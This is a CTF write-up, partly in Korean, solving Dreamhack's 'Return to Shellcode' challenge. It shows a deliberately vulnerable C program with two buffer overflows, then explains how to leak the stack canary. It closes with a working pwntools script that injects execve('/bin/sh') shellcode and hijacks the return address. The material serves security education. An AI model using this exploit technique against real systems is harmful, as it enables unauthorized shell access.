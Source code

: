 # Return to Shellcode - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 2
- Provided Files: r2c.c, r2c(ELF)
- tools: gdb(pwndbg)
## Brief Description
Exploit Tech: Return to Shellcode에서 실습하는 문제입니다.  
## Initial Analysis
### Environment
``` sh
checksec --file=r2s
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX unknown - GNU_STACK missing
PIE:        PIE enabled
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```
### Code
``` c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```
### Buf addr & buf2rbp size
``` c
printf("Address of the buf: %p\n", buf);
printf("Distance between buf and $rbp: %ld\n", (char*)__builtin_frame_address(0) - buf);
// 이건 GCC에서 제공하는 빌트인 함수로, 현재 함수의 frame pointer(rbp)를 반환한다.
```
buf의 주소와 rbp까지의 거리를 출력한다.  
## Vulnerability
### BOF(Buffer Overflow)
``` c
// buf size 0x50
read(0, buf, 0x100); // greater than buf size
printf("Your input is '%s'\n", buf);
```
`buf`의 크기인 0x50을 초과하는 0x100을 입력받기 때문에 BOF 취약점이 발생한다. 또한 이후의 `printf` 함수에서 buf의 내용을 그대로 출력한다. BOF 취약점으로 `buf` 보다 상위 주소의 데이터를 덮어쓰고 읽어올 수 있다.  
``` c
puts("[2] Overwrite the return address");
printf("Input: ");
fflush(stdout);
gets(buf);
```
`gets` 함수로 인해서 두 번째 BOF 취약점이 발생한다. `buf` 보다 상위 주소의 데이터를 덮어 쓸 수 있다.  
## Exploit
### Strategy
해당 어플은 스택 카나리는 활성화 되어있지만, NX 보호 기법은 비활성화 되어있어 쉘코드를 삽입할 수 있다. 또한 두 번의 BOF 취약점이 존재하며, 첫 번재 BOF 취약점에서는 `buf` 보다 상위 주소의 데이터를 읽어올 수도 있다. 따라서 익스플로잇 전략은 다음과 같다.  
1. 첫 번째 BOF: (`buf`와 카나리 사이 공간 + 1) byte 만큼 쓰레기 값을 덮어 써, 카나리 값을 읽어온다. +1의 이유는 x86은 4byte, x86-64는 8byte의 카나리 값을 사용하는데 `LSB`에는 `NULL-byte`가 존재하기 때문에 `printf`로 읽어오기 위해서 해당 바이트를 제거한다. C 에서는 문자열의 끝을 판단하는 기준이 `NULL-byte이기 때문이다.
2. 두 번째 BOF: `buf`의 첫 부분에 `execve("/bin/sh")`의 쉘코드를 삽입하고, 더미 값과 카나리를 적절히 배치한 후, `ra` 위치에 `buf` 주소를 덮어쓰는 페이로드를 삽입한다.  
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| Canary | -0x8 |
| dummy | -0x10 |
| buf | -0x60 |
### payload
``` python
from pwn import *

p = remote('host1.dreamhack.games', 18829)
context.arch = "amd64"

# buf addr
p.recvuntil(b'buf: ')
buf_addr = int(p.recvline()[:-1], 16) 
log.info(f'buf addr: 0x{buf_addr}')

# buf2rbp
p.recvuntil(b'rbp: ')
buf2rbp = int(p.recvline().split()[0]) 
buf2cnry = buf2rbp - 8
log.info(f'buf2rbp: {buf2rbp}')

# canary leak
payload = b''
payload += b'A' * (buf2cnry + 1) # cover the canary null-byte
p.sendafter(b'Input: ', payload)
p.recvuntil(payload)
canary = u64(b'\x00' + p.recvn(7))
log.info(f'leaked canary: {canary}')

# exploit
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b'A') + p64(canary) + b'B' * 0x8 + p64(buf_addr)
p.sendlineafter(b'Input: ', payload)

# sh
p.interactive()
```